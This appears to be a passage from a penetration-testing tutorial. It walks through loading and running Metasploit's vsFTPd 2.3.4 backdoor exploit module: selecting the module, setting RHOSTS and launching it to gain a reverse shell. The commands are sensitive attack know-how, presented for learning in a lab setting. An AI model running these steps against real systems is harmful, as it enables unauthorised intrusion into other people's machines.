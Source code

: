 In this case, we can see that the exploit for **vsFTPd 2.3.4 backdoor** is available under the module path **`exploit/unix/ftp/vsftpd_234_backdoor`**.

To use this exploit, we type:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```
or
```bash
use 0
```

This will load the exploit, and we can then proceed to set up the target and exploit the vulnerability.

To view the options that we need to set for the exploit, use the following command in msfconsole:

```bash
options
```
This will display the available options for the exploit, including required and optional parameters

![alt text](images/image-3.png)

To set the **RHOSTS** option, which defines the target machine's IP address, you can use the following command in **msfconsole**:

```bash
set RHOSTS <target ip>
```

> **Note:** Replace **\<target ip\>** with the IP address of the target machine.

After all the options are set, we can use one of the following commands to start the exploit:

```bash
run
```
or
```bash
exploit
```

Both commands do the same thing — they launch the attack.
If the exploit is successful, we will get a **reverse shell** or some form of access to the target system.
